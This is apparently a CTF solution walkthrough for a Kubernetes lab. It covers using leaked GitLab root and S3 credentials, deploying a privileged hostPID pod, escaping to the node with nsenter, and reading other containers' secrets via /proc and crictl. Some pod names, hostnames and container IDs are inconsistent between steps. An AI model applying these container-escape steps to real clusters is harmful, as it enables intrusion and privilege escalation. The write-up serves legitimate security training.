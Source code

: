 # Solution

## Part 1 - Pivot out of GitLab

- Access <gitlab.foobar.com>
  - Use credentials:
    - u: `root`
    - p: `Ikn0wwh@ty0ud1dl@5tKub3C0n3`
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi>
  - Review README
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commits/main>
  - Review the git commit messages
- Go to <http://gitlab.foobar.com/gitlab-instance-f01e4d8a/foobar-taxi/-/commit/f0e9ad8ac74a428da5c2a4835a633a7bac6b1193>
  - Review for file that has been added by mistake

## Part 1 - Flag

- FLAG(IckyThumb)

## Part 2 - Get config from Bucket

- Use `aws` to copy file the `config` file from bucket

```sh
aws configure set aws_access_key_id "uUcDGYowgomWC8Z5"
aws configure set aws_secret_access_key "FLAG(IckyThumb)"
aws configure set default.region "us-east-1"
aws configure set default.output "json"
aws --endpoint-url=http://bucket.foobar.com:4566 s3 cp s3://foobar-creds/config ./config
```

> NOTE: if <bucket.foobar.com> hasn't been added to the `/etc/hosts` file, then use this:

```sh
aws --endpoint-url=http://localhost:4566 s3 cp s3://foobar-creds/config ./config
```

- Use the config file to connect to the cluster:

```sh
kubectl --kubeconfig=config auth can-i --list
```

## Part 3 - The Homer

Check what kind of pods do we already have at "the-homer" namespace:
```bash
kubectl get pods -n the-homer
NAME             READY   STATUS    RESTARTS   AGE
homer-pod        1/1     Running   0          61m
```

Check what the "homer-pod" actually looks like, what's doing:
```bash
kubectl get pods -n the-homer homer-pod -o yaml
```

Modify the pod spec and include the "hostPID", "hostNetwork", "privileged" flags and set it to true, to be able to 
land on the node. 
```bash
apiVersion: v1
kind: Pod
metadata:
  name: homer-pod-privileged
  namespace: the-homer
spec:
  hostPID: true
  hostNetwork: true
  containers:
  - name: homer-pod-privileged
    image: cgr.dev/chainguard/nginx:latest
    ports:
    - containerPort: 80
    securityContext:
      privileged: true
```

Apply it:

```bash
kubectl apply -f the-homer-priv.yaml
```

Exec into pod:

```bash
kubectl exec -it car-the-privileged-pod -- /bin/sh
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/#
```

Enter into all the namespaces:

```bash
root@gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp:/# nsenter -t 1 -m -u -n -i -p bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / #
```

## Part 3 - Optional flag

Find the flag:

```bash
gke-kubecon-na-ctf-1-default-pool-cfa14102-q2bp / # find .  -name "*flag*" -print
./home/car_capital/f0rd_flag.png
```

The file is `./home/car_capital/f0rd_flag.png`

Get the content:

```bash
cat ./home/car_capital/f0rd_flag.png

aHR0cHM6Ly9kcml2ZS5nb29nbGUuY29tL2ZpbGUvZC8xTi12Nms0YVNpNnFvMXgyY3BJS1IwbjVW
R0dXMFh4a1Qvdmlldw==
```

Decode it from base64:

```bash
base64 -d /home/car_capital/f0rd_flag.png

https://drive.google.com/file/d/1N-v6k4aSi6qo1x2cpIKR0n5VGGW0XxkT/view
```

## Part 4 - boombox

Let's check what other container we have in the node -- since we have access to all the resources.
```bash
gke-test-ctf1-default-pool-f53d5f46-193r / # crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       7 minutes ago       Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
7a3591a7ace99       155251590ab59       About an hour ago   Running             homer-pod                   0                   2bbd5cf5873e7
```

Let's start with boombox, inspect it:
```bash
crictl inspect 5cbb847dd9147
```

We can see that it's a service, listening on 4000:
```bash
          "key": "NAPSTER_PORT_4000_TCP_PORT",
          "value": "4000"
        },
        {
          "key": "NAPSTER_PORT_4000_TCP_ADDR",
          "value": "10.72.7.227"
        },
```

Let's just get the PID:
```bash
  "info": {
    "sandboxID": "b4c9ed42aac3dc4d402f1a8018c11a61d6677d51b8af348649c233f6c0fc9bd7",
    "pid": 6905,
```

And check what's on the service port:
```bash
watch -n 1 curl 10.72.7.227:4000
```

Go to the container directory on the host, it's under /proc/<PID>
```bash
cd /proc/6905/
```

Check the environment variables:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cat environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/ko-appHOSTNAME=boombox-85bdd7ff6f-v84zxSSL_CERT_FILE=/etc/ssl/certs/ca-certificates.crtKO_DATA_PATH=/var/run/koKUBERNETES_PORT_443_TCP_PROTO=tcpNAPSTER_PORT_4000_TCP_PORT=4000NAPSTER_PORT_4000_TCP_ADDR=10.72.7.227NAPSTER_PORT_4000_TCP_PROTO=tcpKUBERNETES_PORT_443_TCP_PORT=443KUBERNETES_PORT_443_TCP_ADDR=10.72.0.1NAPSTER_SERVICE_HOST=10.72.7.227NAPSTER_PORT=tcp://10.72.7.227:4000KUBERNETES_PORT=tcp://10.72.0.1:443NAPSTER_PORT_4000_TCP=tcp://10.72.7.227:4000KUBERNETES_SERVICE_PORT=443KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_PORT_443_TCP=tcp://10.72.0.1:443NAPSTER_SERVICE_PORT=4000KUBERNETES_SERVICE_HOST=10.72.0.1HOME=/home/nonroot
```

We can see that it's a go application built by ko, let's just go to the `/var/run/ko` directory:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r /proc/6905 # cd root/var/run/ko
```

And let's see what's in there:
```bash
ls -l
total 4
drwxr-xr-x 3 root root 4096 Oct 26 13:57 his
```

Get the flag:
```bash
cat his/palms/are/sweaty/knees/weak/arms/are/heavy/theres/vomit/on/his/sweater/already/moms/spagetti
FLAG=loseyourself
```

## Part 5 - BeepBeep

Let's inspect what beepbeep is doing. Get the containerID:
```bash
crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
83bed131d1aa4       76c69feac34e8       30 minutes ago      Running             homer-pod-priv              0                   f05e5ab2c0374
5cbb847dd9147       751ae29343161       About an hour ago   Running             boombox                     0                   b4c9ed42aac3d
a7c59e682abec       63c5d601075ce       About an hour ago   Running             beep-beep                   0                   88908c85a6636
```

and run:
```bash
crictl inspect a7c59e682abec
```

Check if there is any info related to logging:
```bash
      },
      "log_path": "beep-beep/0.log",
      ...
    ],
    "logPath": "/var/log/pods/intersection_beep-beep-722gl_417af059-0e56-4129-aa4c-607772f75356/beep-beep/0.log"
    ...
```

Let's try to stop it:
```bash
gke-test-ctf1-default-pool-f53d5f46-193r ~ # crictl stop 8bc9bef03b864
8bc9bef03b864
```

